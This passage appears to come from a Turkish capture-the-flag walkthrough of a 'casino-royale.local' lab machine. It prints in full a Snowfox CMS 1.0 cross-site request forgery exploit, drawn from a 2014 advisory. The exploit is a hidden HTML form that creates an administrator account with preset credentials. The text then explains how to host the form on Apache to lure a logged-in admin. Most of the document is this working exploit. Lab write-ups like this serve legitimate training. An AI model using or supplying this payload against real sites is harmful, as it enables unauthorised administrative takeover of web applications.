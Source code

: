 ```sh
root@kali:~# cat casino.html 
<!--

Snowfox CMS v1.0 CSRF Add Admin Exploit


Vendor: Globiz Solutions
Product web page: http://www.snowfoxcms.org
Affected version: 1.0

Summary: Snowfox is an open source Content Management System (CMS)
that allows your website users to create and share content based
on permission configurations.

Desc: Snowfox CMS suffers from a cross-site request forgery
vulnerabilities. The application allows users to perform certain
actions via HTTP requests without performing any validity checks
to verify the requests. This can be exploited to perform certain
actions with administrative privileges if a logged-in user visits
a malicious web site.

Tested on: Apache/2.4.7 (Win32)
           PHP/5.5.6
           MySQL 5.6.14


Vulnerability discovered by Gjoko 'LiquidWorm' Krstic
                            @zeroscience


Advisory ID: ZSL-2014-5205
Advisory URL: http://www.zeroscience.mk/en/vulnerabilities/ZSL-2014-5205.php



12.11.2014

-->


<html>
  <body>
    <form action="http://casino-royale.local/vip-client-portfolios/?uri=admin/accounts/create" method="POST">
      <input type="hidden" name="emailAddress" value="user@user.local" />
      <input type="hidden" name="verifiedEmail" value="verified" />
      <input type="hidden" name="username" value="user" />
      <input type="hidden" name="newPassword" value="password" />
      <input type="hidden" name="confirmPassword" value="password" />
      <input type="hidden" name="userGroups[]" value="34" />
      <input type="hidden" name="userGroups[]" value="33" />
      <input type="hidden" name="memo" value="CSRFmemo" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="formAction" value="submit" />
      <input type="submit" value="Submit form" />
    </form>
  </body>
</html>
```
Şİmdi bu dosyayı `/var/www/html` altına taşıyıp apache serverı başlatalım.
